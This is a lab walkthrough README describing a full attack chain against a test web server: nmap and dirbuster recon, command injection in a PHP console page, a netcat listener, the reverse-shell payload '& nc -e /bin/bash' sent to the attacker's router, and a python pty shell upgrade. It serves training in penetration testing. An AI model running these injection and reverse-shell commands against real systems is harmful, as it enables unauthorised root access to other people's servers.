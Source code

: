 # Catching-a-Reverse-Shell

# Stage 1: Topology

We are acting as Kali4 and our target is App1. Our networks are segmented but, our routers share a common switch.
Our goal is to get our target to send us a shell, this is called a reverse shell.

![CRS_1](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/b7129606-92ef-4b2e-a1cf-98b409265d07)

The only information we are given is the ip of the router. Lets see what we can find out about the network.

![CRS_2](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/bd1950ed-b6d2-4c5d-a4ce-5a54790ac923)

# Stage 2: Reconnaissance

The first step in attacking a target is recon. RECON RECON RECON. We can't attack something we do not know. We will be using
the popular recon tool nmap on our targeted IP.

This is optional but, you can create a file with a list of IP's and tell nmap to scan the list using the " -iL " switch.

![CRS_3](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/bebaaa89-1217-404d-8315-6a8749ba3115)

The " tee " command allows you to run whatever command you want and print the output to a file. Whatever you put after tee
will become the file name.

![CRS_4](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/6349788c-7ce4-4b39-927f-d0c02aa41612)

As you see ports 53/DNS and 80/HTTP are open. It is safe to assume that App1 is a webserver since DNS and HTTP are open.
We will most likely attack port 80/HTTP but, lets find some more information. When you see a target is hosting HTTP think
BROWSER BROWSER BROWSER. Type the targets IP into your browser. 

Ex: http://192.168.122.47

![CRS_5](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/3cda74d4-71b5-4c58-9f36-d9162f1e3ea1)

The site appears to be bare, empty, useless. But we are HACKERS! we theres always a way into the "mainframe"
Lets see if theres anymore information on the back end. Use right click and hit "view page source" or press 
"ctrl+u" if you're cool.

![CRS_6](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/fec3d9a1-c2c2-4744-b229-103508477788)

This is how the page is made up. We see the page is written using html and designed with css. You can click around and 
be Indianna but I clicked this fancy .png link.

![CRS_7](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/1a6f8f82-cd37-41b2-9629-7dd4cbeb3d97)

We found something!!! This is a $1 vulnerability, D Tier, common, but it's something. The vulnerability is "Version Disclosure
Vulnerability". We now know that App1 is a Linux server running on Apache version 2.4.52. This is a low vulnerability but, this
is a step in finding exploits against the server. I mean you can try it your self. Copy and paste this in google:

Apache Version 2.4 exploits

Moving on...

![CRS_8](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/419cbc3c-4754-4f46-b472-af392a0f52f3)

We are still trying to gather more information on the site. The last thing we will do is search to see if there are any hidden
paths in the site. After all, websites are directories, files, media, and code. We will run dirbuster to find any hidden paths.

![CRS_9](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/c6d3d9d4-6537-473c-b101-a0e6bbee679a)

There are a few hits, but one paths stands out from the others. The "console" path. We will add it to the targets url. 

http://192.168.122.47/console/

![CRS_10](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/e0c10cd3-df64-4ec0-a42f-b6c059852590)

Select view.php

![CRS_11](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/6a2bce9a-d7ec-49f5-96fa-2fd67dafa56f)

It appears we are at an application in which we can search files if we give the website proper credentials. We know that the 
machine we are dealing with is a Linux Debian. Let's see if we can insert linux commands into the webapp. 

# Resource Development / Initial Access

Linux, Microsoft, HTML, RUBY, etc runs on code. When injecting code use functions that will close a code so you can start your own.
For example, if you look at HTML code you can see a pattern of <> "" etc. These are used to close comment make references etc. These 
should be something to foucs on if you are injecting a html service. We are assuming the application allows us to talk to the linux 
server directly. So we will use functions such as " ; & | " etc.

- & is a function to run next
- ; is a function to run on a seperate line

Lets try and inject some commands in the boxes.

![CRS_12](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/3c0e7622-676a-4d5b-b7c3-906fbeb3e8d3)

nothing...

![CRS_13](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/f6f038ff-6b7f-4d9c-a69f-14c7a647c620)

Big Success! our " & id " command shot out the users id and its permissions.

UID=0 is root be aware for that.

This is another vulnerability called "command injection". The designer of the website has failed to sanitize or block the
use of special characters.

Since we have the ability to type commands into the target computer that gives us the ability to send a reverse shell.
We must first port forward the shell by changing our firewall settings.

![CRS_14](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/419b45e2-93f0-475d-9f9d-f9d1550544b7)

We enter our routers IP into the browser

![CRS_15](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/e29402b2-5791-420a-a580-ba41b6da867c)

Log In and head into the NAT rules.

![CRS_16](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/fba44514-3059-4d1e-ab6b-e098699f7c82)

Make sure you set the destination type to "WAN". You can change the port range to anything you want just make sure
that it matches with the redirect port. Use your own IP for the redirection and save.

This is our reverse shell firewall rule.
We are telling OUR firewall to open port 2077 and any traffic you get that is 2077 redirect to "my" IP or computer.

When we are sending the payload for a reverse shell we are telling the target to send "US" a request to connect.

![CRS_17](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/4fe3c2b1-67f7-4676-bb10-c2a083bb1e50)

Now we grab our gloves and get ready for the reverse shell catch by running

- nc -lvp 2077   
- l = listener
- v = verbose
- p = port

![CRS_18](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/a0cab823-6827-4265-9b48-344e12cfda30)

Our box is actively listening for the shell. We now send the payload through the website to connect to us. Run:

& nc -e /bin/bash 192.168.122.209 2077

make sure you are sending the shell to "your" router, the router will send the shell to your box and if the listener
is running you will catch the shell.

![CRS_19](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/0e8ebe54-28f7-4d2a-9332-c68c1b4b45bc)

Connected....

![CRS_20](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/890835be-3629-4e67-a924-fb41650a8a46)

Run: whoami

![CRS_21](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/b333e956-85c6-4917-8920-0c100adb05fc)

# Shell Upgrade

Our shell is aight but aight aint good enough, so we will upgrade our shell so we have the ability to ctrl+c, nano,
get command feedback and others.

Run: python3 -c 'import pty; pty.spawn("/bin/bash")'

This creates a more interractible shell.

![CRS_22](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/b6c6921b-cd56-4342-8353-cb58c1539dbf)
![CRS_23](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/25ac8c87-45ef-41f0-9682-3a7974743d9a)
![CRS_24](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/322d08f2-fd72-4155-9b10-3f3311eef59b)
![CRS_25](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/a9c2cffb-6afd-4dbe-a14a-c753433ca4ef)
![CRS_26](https://github.com/Magee3/Catching-a-Reverse-Shell/assets/134301259/78fc9ded-7706-484d-98d8-44c02b2cfc01)
